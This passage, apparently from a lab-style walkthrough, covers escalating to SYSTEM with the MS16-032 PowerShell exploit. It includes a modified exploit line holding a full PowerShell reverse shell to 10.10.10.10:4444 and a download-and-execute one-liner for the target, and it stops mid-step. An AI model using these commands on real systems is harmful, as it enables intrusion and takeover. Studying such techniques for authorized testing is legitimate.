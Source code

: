 Get the Powershell script from FuzzySecurity's Github, add an invoke to the end of the script and share the folder using the python SimpleHTTPServer:

```
root@kali:~test# git clone https://github.com/FuzzySecurity/PowerShell-Suite.git
Cloning into 'PowerShell-Suite'...
remote: Enumerating objects: 378, done.
remote: Total 378 (delta 0), reused 0 (delta 0), pack-reused 378
Receiving objects: 100% (378/378), 5.94 MiB | 2.06 MiB/s, done.
Resolving deltas: 100% (179/179), done.
root@kali:~test# cd PowerShell-Suite/
root@kali:~test/PowerShell-Suite# echo Invoke-MS16-032 >> Invoke-MS16-032.ps1 
root@kali:~test/PowerShell-Suite# python -m Simple
SimpleDialog        SimpleHTTPServer    SimpleXMLRPCServer  
root@kali:~test/PowerShell-Suite# python -m SimpleHTTPServer 80
```

The default version of the MS16-032 script will create a Pop-up CMD.exe window on the remote machine. Unfortunatly, we cannot access this from a limited shell... BUT we can modify the exploit to call a reverse shell. Its pretty easy to modify it to call a reverse powershell that will connect back to our machine with a System shell. We will need to modify line 330 of the exploit (the ip address and port will need to be updated of course):

```powershell
        # LOGON_NETCREDENTIALS_ONLY / CREATE_SUSPENDED
        #$CallResult = [Advapi32]::CreateProcessWithLogonW(
        #    "user", "domain", "pass",
        #    0x00000002, "C:\Windows\System32\cmd.exe", "",
        #    0x00000004, $null, $GetCurrentPath,
        #    [ref]$StartupInfo, [ref]$ProcessInfo)

        # Modified to create a Powershell reverse shell 
        $CallResult = [Advapi32]::CreateProcessWithLogonW(
            "user", "domain", "pass",
            0x00000002, 
            'C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe', 
            '-NoProfile -InputFormat None -ExecutionPolicy Bypass -Command "&{$client = New-Object System.Net.Sockets.TCPClient(\"10.10.10.10\",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + \"PS \" + (pwd).Path + \"^> \";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()}"',
            0x00000004, $null, $GetCurrentPath,
            [ref]$StartupInfo, [ref]$ProcessInfo)
```

On the remote host execute the exploit:

```cmd
CMD C:\> @"%SystemRoot%\System32\WindowsPowerShell\v1.0\powershell.exe" -NoProfile -InputFormat None -ExecutionPolicy Bypass -Command "iex ((New-Object System.Net.WebClient).DownloadString('http://10.10.10.10/Invoke-MS16-032.ps1'))"
```

Or from a Windows Powershell:

